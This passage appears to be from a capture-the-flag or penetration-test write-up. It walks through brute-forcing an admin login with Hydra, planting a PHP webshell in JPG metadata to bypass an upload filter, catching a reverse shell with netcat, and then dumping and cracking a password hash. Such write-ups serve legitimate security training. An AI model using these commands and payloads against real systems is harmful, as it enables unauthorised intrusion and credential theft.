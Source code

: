 > [!TIP] Hydra Command
> ```bash
> hydra -l [REDACTED_ADMIN_USER] -P /path/to/chronos_list.txt $TARGET_IP http-post-form "/admin_login.php:username=^USER^&password=^PASS^:Incorrect Password"
> ```

> [!SUCCESS] Credentials Found
> - **User:** `[REDACTED_ADMIN_USER]`
> - **Password:** `[REDACTED_PASSWORD]`

**4.1.4. Remote Code Execution via Hardened File Upload Bypass**
After authenticating to the admin panel, a file upload form was discovered. The form was hardened to only accept valid image files. This was bypassed using a multi-step process:

> [!NOTE] Bypass Strategy
> 1. Create a polyglot file by injecting a PHP payload into a valid JPG's metadata using `exiftool`.
> 2. Rename the file to `shell.php.jpg` to exploit a server misconfiguration.
> 3. Upload the file and trigger the payload to gain a reverse shell.

> [!TIP] Create the Payload
> ```bash
> # Step 1: Inject PHP shell into image metadata
> exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
> 
> # Step 2: Rename the file for the exploit
> mv image.jpg shell.php.jpg
> ```

> [!TIP] Obtain Reverse Shell
> ```bash
> # Step 3: Start Netcat listener on attacker machine
> nc -lvnp 4444
> 
> # Step 4: Trigger the payload from another terminal
> curl -g "http://$TARGET_IP/uploads/shell.php.jpg?cmd=...[URL-Encoded Reverse Shell Payload]..."
> ```

> [!SUCCESS] Shell Obtained
> A reverse shell was obtained as the **`www-data`** user.

#### 4.2. User Pivot: `www-data` to a Standard User

**4.2.1. Internal Enumeration & Credential Discovery**
Enumeration of `/var/www/` revealed a database file at `/var/www/db/database.sqlite`.

**4.2.2. Password Cracking**
> [!TIP] Dump Database Contents
> ```bash
> sqlite3 /var/www/db/database.sqlite ".dump"
> ```

> [!INFO] Hash Found
> The database contained the MD5 hash for a user: `[REDACTED_MD5_HASH]`.

The hash was cracked using `John the Ripper`.
